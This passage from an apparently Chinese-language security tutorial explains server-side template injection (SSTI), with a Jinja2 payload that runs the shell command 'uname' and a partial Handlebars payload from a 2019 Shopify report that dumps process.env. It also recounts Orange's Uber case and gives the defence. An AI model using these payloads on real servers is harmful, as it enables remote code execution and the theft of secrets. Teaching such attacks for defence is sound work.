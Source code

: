 看起來沒什麼問題，但如果我們把 template 改一下呢？像是這樣：

``` python
from jinja2 import Template

data = {
    "name": "Peter",
    "link": "https://example.com",
    "email": "test@example.com"
}

template_str = """
Output: {{ 
    self.__init__.__globals__.__builtins__
    .__import__('os').popen('uname').read()
}}
"""
template = Template(template_str)
rendered_template = template.render(
    name=data['name'],
    link=data['link'],
    email=data['email'])
print(rendered_template)
```

輸出就會變成：`Output: Darwin`，而 Darwin 就是指令 `uname` 執行以後的結果。

簡單來講，你可以把 `{{}}` 裡面的東西看成是模板引擎會幫你執行的程式碼。

雖然說我們以前都只有簡單寫 `{{name}}`，但其實還可以做更多操作，例如說 `{{ name + email }}` 也是可以的。以上面的案例來看，就是從 `self` 開始一路用 Python 黑魔法讀到了 `__import__`，就可以 import 其他 module 進來，達成指令的執行。

像這種能夠讓攻擊者掌控模板的漏洞就叫做模板注入，發生在後端就叫 SSTI，在前端就叫做 CSTI。

防禦方式的話很簡單，就是不要把使用者的輸入當成是模板的一部分；如果無論如何都必須要這樣做的話，記得看看模板引擎是否有提供 sandbox 的功能，讓你在安全的環境下執行不信任的程式碼。

## SSTI 的實際案例

第一個來看 2016 年 Orange 在 Uber 發現的漏洞，他某天突然發現 Uber 寄來的信中有一個 `2`，才想起來他在姓名的欄位中輸入了 `{{ 1+1 }}`，這個是在找 SSTI 漏洞時很常見的技巧，就是在可以輸入的地方輸入一大堆 payload，從結果就可以看出是否有 SSTI 的問題。

而接著就是用了我們上面提到的手法去找有哪些變數可以用然後串接，因為 Uber 也是用 Jinja2，所以最後的 payload 跟我們剛剛寫的差不多，最後利用了 SSTI 達成了 RCE。

更詳細的過程可以參考：[Uber 遠端代碼執行- Uber.com Remote Code Execution via Flask Jinja2 Template Injection](http://blog.orange.tw/2016/04/bug-bounty-uber-ubercom-remote-code_7.html)

第二個則是 2019 年 Shopify 的 Handlebars SSTI，由 Mahmoud Gamal 回報。

Shopify 的商家後台有個功能是可以讓商家自訂要寄給使用者的信件（就跟我剛剛舉的例子很像啦），可以使用 `{{order.number}}` 這種語法來自訂內容。而後端是使用了 Node.js 搭配 Handlebars 這一套模板引擎。

因為 Handlebars 有一些保護措施而且比較複雜，所以駭客花了許多時間在嘗試該怎麼去攻擊，畢竟有 SSTI 是一回事，但並不是每個模板引擎都能夠弄到 RCE。

最後試出來的 payload 非常長：

``` js
{{#with this as |obj|}}
    {{#with (obj.constructor.keys "1") as |arr|}}
        {{#with obj.constructor.name as |str|}}
            {{#blockHelperMissing str.toString}}
              {{#with (arr.constructor (str.toString.bind "return JSON.stringify(process.env);"))}}
                  {{#with (obj.constructor.getOwnPropertyDescriptor this 0)}}
                      {{#with (obj.constructor.defineProperty obj.constructor.prototype "toString" this)}}
                          {{#with (obj.constructor.constructor "test")}}
                            {{this}}
                          {{/with}}
                      {{/with}}
                  {{/with}}
              {{/with}}
```